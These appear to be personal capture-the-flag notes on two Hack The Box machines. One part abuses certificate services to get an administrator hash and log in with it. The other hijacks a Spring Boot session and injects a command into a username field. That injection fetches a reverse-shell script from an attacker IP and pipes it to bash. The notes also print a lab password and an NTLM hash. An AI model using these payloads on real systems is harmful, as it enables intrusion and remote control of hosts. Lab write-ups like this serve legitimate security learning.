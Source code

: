 ```
	[-] Failed to request certificate)
17. certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -issue-request 19
    ([*] Successfully issued certificate)
18. certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -retrieve 19
    (   [*] Rerieving certificate with ID 19
	[*] Successfully retrieved certificate
	[*] Got certificate with UPN 'administrator@manager.htb'
	[*] Certificate has no object SID
	[*] Loaded private key from '19.key'
	[*] Saved certificate and private key to 'administrator.pfx' )
19. certipy auth -pfx administrator.pfx
    ([-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great))
    ("KRB_AP_ERR_SKEW" error occurs when there is a significant time difference between the client and the KDC servers)
20.  disable the "Automatic Date & Time" setting in our machine's settings
    cmd: sudo ntpdate -s manager.htb
21. run cmd again: certipy auth -pfx administrator.pfx
    ([*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef)
22. using administrator hash to login
    cmd: evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
    (*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
     manager\administrator)
```


## HTB: CozyHosting 02 Mar 2024
use ${IFS} to escape space
```
1. ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.230 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
   nmap -p$ports -sV 10.10.11.230
2. ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://cozyhosting.htb/FFUZ -ic -t 100
   	-w Wordlist file path
	-u Target URL
	-ic Ignore wordlist comments
	-t Number of concurrent threads
3. Find page with "Whitelabel Error Page" -> it`s spring boot.
4. ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt:FFUZ -u http://cozyhosting.htb/FFUZ -ic -t 100
    (spring boot specific fuzz)
    	(actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 174ms]
	actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 174ms]
	actuator/sessions       [Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 172ms]
	actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 178ms]
	actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 185ms]
	actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 207ms]
	actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 208ms]
	actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 233ms]
	actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 175ms])
5. http://cozyhosting.htb/actuator/sessions ({"2688CA1A5F14858B58D088D4EDA8F329":"kanderson"})
6. use the found session key to login http://cozyhosting.htb/admin page.
7. in "connection settings" put payload in Username field.
8. attacker machine create reverse shell: echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.49/4444 0>&1' > rev.sh
9. attacker machine host file on port 7000: python3 -m http.server 7000 
10. attacker machine listen: nc -lnvp 4444
11. put payload in /admin username and run: test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;

```
